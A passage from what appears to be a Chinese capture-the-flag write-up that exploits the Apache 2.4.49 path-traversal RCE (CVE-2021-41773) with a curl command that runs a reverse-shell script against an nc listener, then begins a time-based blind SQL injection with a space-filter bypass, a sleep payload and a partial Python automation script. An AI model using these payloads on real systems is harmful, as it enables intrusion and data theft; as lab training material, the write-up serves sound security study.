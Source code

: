 在返回结果中已经存在 `shell.sh`， 故在主控机上 `nc -lvp 54188`，然后执行：

```bash
curl --data "echo;bash /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

拿到 shell.

执行 `ls /` 找到 flag 并 `cat` 得到 flag.

```shell
daemon@out:/$ cat ffffllllaaagggg_cc084c485d
flag{c5b66e3b-404d-49eb-a970-0c0c7fa0f2db}
```

事实上将 `--data` 设定为 `echo;ls /` 进行 RCE 即可获得到 flag 的位置和文件名，然后使用路径穿越或 RCE 均可读到 flag 的内容。

#### References

- <https://blog.csdn.net/qq_60905276/article/details/125163219>
- <https://httpd.apache.org/security/vulnerabilities_24.html>
- <https://github.com/Threekiii/Vulhub-Reproduce/blob/master/Apache%20HTTP%20Server%202.4.49%20%E8%B7%AF%E5%BE%84%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%20CVE-2021-41773.md>

### Find round

基础注入测试一下，发现其过滤掉了空格和井号。其中空格可以使用 `%0C` 绕过。

注入一些 SQL 发现其没有回显。

解决这种情况有两种方式，一种是 DNSlog，另一种是 sleep 盲注。但是经过测试本题无法使用 SQL 语句中的 `load_file`，故无法使用 DNSlog.

根据 IF 语句的语法 `if(表达式, 若真, 若假)` 使用 payload

```sql
if(ascii(substr(database(),1,1))>0,sleep(5),1)
```

发现网页加载时间明显变慢。利用这一特性，写 Python 脚本，定义一些工具函数：

```python
# Copyright (c) 2022 Jevon Wang
from time import sleep
import requests

# 字母表
ALPHABET = "?!-_/\{} abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# 靶机地址
URL = "http://a4987151-d67a-4396-b3d4-10fa0937cba5.node4.buuoj.cn:81/comments.php"
# 请求发送间隔
SLEEP_INTERVAL = 0.001
# 几秒内未收到响应视为 if 判真
REQUEST_TTL = 0.8


def test_pass(payload):
    """测试 payload 是否有效
    """
    url = URL
    data = {"name": payload}
    try:
        res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
    except:
        return True
    return False


def test_int(L, R, payload, log=False, log_result=False):
    """枚举整数直到匹配成功
    
```